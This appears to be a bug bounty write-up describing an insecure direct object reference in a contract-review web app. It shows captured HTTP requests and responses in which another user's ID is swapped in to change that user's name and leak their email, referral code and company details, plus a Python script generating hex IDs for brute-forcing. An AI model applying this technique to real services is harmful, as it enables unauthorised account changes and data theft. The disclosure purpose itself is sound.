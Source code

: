 ```yaml
---
layout: post
title: Changing userID leads to Data leakage and Profile Update
categories: bug hunting 
---
```


In another bug bounty session of mine, I came across a bounty program of a "Contract Review" company.

In their web app, one could register with a first/last name, an email and their company's name (and a password ofc).

Upon trying to figure out how the web app works, I updated my profile by changing my first name from "vict0ni" to "vict0ni1337". I captured the request:

```
OPTIONS /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Origin: https://app.website.com
Connection: close
```
followed by:
```
PUT /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:
```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 13:43:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 948
Connection: close
Set-Cookie: __cfduid=db2571d1ac9e83a96ca3265b9a0bf1d4c1580996613; expires=Sat, 07-Mar-20 13:43:33 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3b4-QbbUm9x0qtqg3/Bqcixd7mbQgqw"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 560d8dc0581c4098-HAM

{"users":[{"contracts":[],"createdAt":1580425135972,"updatedAt":1580996613958,"id":"5e335fafedd93a1f35b6ca27","email":"vict0ni@bugcrowdninja.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"3measgw3gr1yjpgvddqn","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e335faeedd93a1f35b6ca26"}],"companies":[{"createdAt":1580425133542,"updatedAt":1580428552059,"id":"5e335faeedd93a1f35b6ca26","name":"BugBounty","seq":5119,"vatId":"","phone":"1337","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"zqpwr","referralExtraCredits":0,"subscription":{"id":"16A1DGRp7Up0s1Qu7","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e335faeedd93a1f35b6ca26/users","contracts":"/companies/5e335faeedd93a1f35b6ca26/contracts"}}]}
```
So I was making an OPTIONS request and then a PUT request with my personal userID ``5e335fafedd93a1f35b6ca27`` updating my first name (one could only change the first and last name).

I always make two accounts when testing a web app. I did the same thing for my second account, just in order to grab that userID. Then I thought what could happen if I used the userID of account B in a request to update the account A. So I did the exact same thing as described above, being authorized as a user of account A, but using the userID of account B:

```
PUT /users/5e3c8692f3d2c616c6ed78e9 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:

```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 21:38:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 943
Connection: close
Set-Cookie: __cfduid=d78cefde78c34008ca49d162306b8fcfb1581025085; expires=Sat, 07-Mar-20 21:38:05 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3af-ctJNYxOVotnOZ8DYR4ejpainHVE"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 561044dd2b4fcd93-CDG

{"users":[{"contracts":[],"createdAt":1581024914019,"updatedAt":1581025085895,"id":"5e3c8692f3d2c616c6ad78e9","email":"yigoxa6599@jmail7.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"5pjs1pjjwprphpkce0rj","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e3c8690f3d2c616c6ed78e8"}],"companies":[{"createdAt":1581024911551,"updatedAt":1581024919638,"id":"5e3c8690f3d2c616c6ed78e8","name":"CompanyB","seq":5137,"vatId":"","phone":"","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"plozx","referralExtraCredits":0,"subscription":{"id":"16BcmbRpl5Qvt1Lwv","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e3c8690f3d2c616c6ed78e8/users","contracts":"/companies/5e3c8690f3d2c616c6ed78e8/contracts"}}]}
```
So, by changing the userID to the account B's userID, I could update the account B's first and last name, grab it's mail, referral code, companyID, subscription plan, number of employees, phone number, the company's [VAT identification number](https://en.wikipedia.org/wiki/VAT_identification_number) etc., while being authorized as account A. With the referral code, a user could use it to gain $30 as a "gift" for getting referred by another user.

While that's all good, the userID of each account remains secret. There had to be some kind of MiTM attack to capture it and make a targeted attack. So I thought maybe I could generalize the attack, instead of targeting a single account.
By using dummy userIDs, in order to test the brute-force protection, I found out that the endpoint was vulnerable to brute-force attacks. Since the userID is following a certain pattern (a string of 24 hex characters), one could generate all the possible IDs and save them into a file with this python script:

```python
import itertools

string = '0123456789abcdef'
file = open('userIDs.txt', 'w')
for p in itertools.product(string, repeat=15):
	writing = ''.join(p) + '\n'
	file.write(writing)
file.close()
```

With enough computing power, an attacker could change the first/last name of all users and grab their account and company info.


Thanks for reading!